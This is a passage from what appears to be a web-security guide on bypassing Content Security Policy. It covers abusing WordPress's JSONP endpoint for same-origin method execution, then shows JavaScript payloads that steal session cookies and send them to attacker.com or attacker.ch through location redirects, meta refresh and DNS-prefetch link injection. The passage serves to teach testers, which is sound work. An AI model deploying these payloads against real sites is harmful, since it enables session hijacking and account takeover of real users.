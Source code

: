 Moreover, **wordpress** has a **JSONP** endpoint in `/wp-json/wp/v2/users/1?_jsonp=data` that will **reflect** the **data** sent in the output (with the limitation of only letter, numbers and dots).

An attacker can abuse that endpoint to **generate a SOME attack** against WordPress and **embed** it inside `<script s`rc=`/wp-json/wp/v2/users/1?_jsonp=some_attack></script>` note that this **script** will be **loaded** because it's **allowed by 'self'**. Moreover, and because WordPress is installed, an attacker might abuse the **SOME attack** through the **vulnerable** **callback** endpoint that **bypasses the CSP** to give more privileges to a user, install a new plugin...\
For more information about how to perform this attack check [https://octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution/](https://octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution/)

## CSP Exfiltration Bypasses

If there is a strict CSP that doesn't allow you to **interact with external servers**, there are some things you can always do to exfiltrate the information.

### Location

You could just update the location to send to the attacker's server the secret information:

```javascript
var sessionid = document.cookie.split("=")[1] + "."
document.location = "https://attacker.com/?" + sessionid
```

### Meta tag

You could redirect by injecting a meta tag (this is just a redirect, this won't leak content)

```html
<meta http-equiv="refresh" content="1; http://attacker.com" />
```

### DNS Prefetch

To load pages faster, browsers are going to pre-resolve hostnames into IP addresses and cache them for later usage.\
You can indicate a browser to pre-resolve a hostname with: `<link rel="dns-prefetch" href="something.com">`

You could abuse this behaviour to **exfiltrate sensitive information via DNS requests**:

```javascript
var sessionid = document.cookie.split("=")[1] + "."
var body = document.getElementsByTagName("body")[0]
body.innerHTML =
  body.innerHTML +
  '<link rel="dns-prefetch" href="//' +
  sessionid +
  'attacker.ch">'
```

Another way:

```javascript
const linkEl = document.createElement("link")
linkEl.rel = "prefetch"
linkEl.href = urlWithYourPreciousData
document.head.appendChild(linkEl)
```
